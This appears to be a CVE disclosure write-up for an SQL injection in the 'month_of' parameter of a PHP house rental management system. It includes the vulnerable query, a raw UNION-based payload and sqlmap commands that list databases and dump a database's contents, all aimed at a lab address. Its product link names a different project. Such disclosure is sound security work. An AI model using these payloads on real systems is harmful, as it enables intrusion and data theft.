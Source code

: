 # SQL Injection Vulnerability at Sourcecodester House Rental Management System
## CVE-2024-6066
Official Website: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html

Version: v1.0

route:/payment_report.php?month_of=<payload>

Related Code file: payment_report.php

Injection parameter: month_of

## Vulnerability Analysis
Vulnerable code:
```php
$payments = $conn->query("SELECT p.*, concat(t.lastname,', ',t.firstname,' ',t.middlename) as name, h.house_no FROM payments p INNER JOIN tenants t ON t.id = p.tenant_id INNER JOIN houses h ON h.id = t.house_id WHERE date_format(p.date_created,'%Y-%m') = '$month_of' ORDER BY unix_timestamp(date_created) ASC");
```

The part of this code that is vulnerable to SQL injection is the following SQL query, where the $month_of parameter is directly included in the SQL statement without any sanitization or use of prepared statements.
Because the $month_of parameter is coming directly from user input ($_GET['month_of']). An attacker could manipulate this input to include malicious SQL code.

## Vulnerability Verification and Exploit
We can easily recreate this vulnerability using sqlmap as such:

Below is for basic sql injection testing:

`sqlmap 'http://172.16.76.1/rental/payment_report.php?month_of=2024-06' –batch`

![image](https://github.com/jadu101/CVE/assets/76433661/90efd07f-9db7-479e-a186-18d9a4316666)

Below is the payload that can be used to reproduce withouut sqlmap

```
month_of=2024-06' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b6b6271,0x7150726e686a6f7a51496176746f794e58766344546e746a77414663655079734a697847496f4557,0x716b7a6271),NULL-- -
```

Below is the command used to dump database list:

`sqlmap 'http://172.16.76.1/rental/payment_report.php?month_of=2024-06' --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/042e913b-ac47-4ecd-a41f-c40adc4dbfdb)

Below is the command used to dump data inside house_rental_latest database:

`sqlmap 'http://172.16.76.1/rental/payment_report.php?month_of=2024-06' --batch --dbs -D house_rental_latest --dump`

![image](https://github.com/jadu101/CVE/assets/76433661/464aa85e-990d-4247-9573-c0fb833b3208)









